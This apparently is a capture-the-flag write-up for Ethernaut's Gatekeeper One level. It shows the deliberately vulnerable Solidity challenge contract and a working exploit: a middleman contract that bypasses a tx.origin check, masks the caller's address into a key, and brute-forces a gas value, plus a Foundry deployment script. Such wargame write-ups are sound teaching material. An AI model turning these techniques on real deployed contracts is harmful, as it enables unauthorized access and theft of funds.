 # Level 13 - Gatekeeper 1 ⏺⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/13" %}

### Level Setup

{% hint style="info" %}
Make it past the gatekeeper and register as an entrant to pass this level.

**Things that might help:**

* Remember what you've learned from the Telephone and Token levels.
* You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/GatekeeperOne.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-13

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-13

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/4dc2126006371c28e6945efa78c79b6a68f96b06/src/Level13.sol" %}

{% code title="src/Level13.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                    LEVEL 13 - GATEKEEPER ONE                 │
// ================================================================
contract GatekeeperOneMiddleman {
    function run(address targetContract) public {
        // Gate one is passed just by calling the enter function from this contract
        // causing the tx.origin to be different from the msg.sender

        bool succeeded = false;

        // Gate three requires...
        bytes8 key = bytes8(uint64(uint160(tx.origin)) & 0xffffffff0000ffff);

        uint256 gas = 65782;

        // Gate two requires calculating the gas remaining...
        for (uint256 i = gas - 5052; i < gas + 5052; i++) {
            console.log("Trying gas: ", i);
            (bool success,) = address(targetContract).call{gas: i}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) {
                succeeded = success;
                break;
            }
        }
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/4dc2126006371c28e6945efa78c79b6a68f96b06/script/Level13.s.sol" %}

{% code title="script/Level13.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {GatekeeperOneMiddleman} from "../src/Level13.sol";

// ================================================================
// │                    LEVEL 13 - GATEKEEPER ONE                 │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        GatekeeperOneMiddleman gatekeeperOneMiddleman = new GatekeeperOneMiddleman();
        gatekeeperOneMiddleman.run(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Well done! Next, try your hand with the second gatekeeper...
{% endhint %}
